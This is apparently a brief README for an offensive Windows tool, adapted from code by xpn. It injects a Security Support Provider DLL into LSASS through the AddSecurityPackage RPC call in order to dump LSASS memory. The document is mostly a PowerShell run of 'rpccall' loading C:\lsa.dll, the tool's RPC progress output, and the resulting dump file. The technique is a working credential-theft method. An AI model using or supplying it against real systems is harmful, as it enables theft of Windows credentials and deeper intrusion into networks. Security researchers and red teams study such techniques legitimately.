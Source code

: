 # dump-lsass-via-rpc-addssp

Code from [xpn](https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e)

Use module `rpccall` (`AddSecurityPackage` RPC call) to add(inject) SSP DLL

```
PS C:\> .\rpccall C:\lsa.dll

AddSecurityPackage Raw RPC Example... by @_xpn_

[*] Building RPC packet
[*] Connecting to lsasspirpc RPC service
[*] Sending SspirConnectRpc call
[*] Sending SspirCallRpc call
[*] Error code 0x6c6 returned, which is expected if DLL load returns FALSE
PS C:\> ls C:\1.bin
1.bin
```

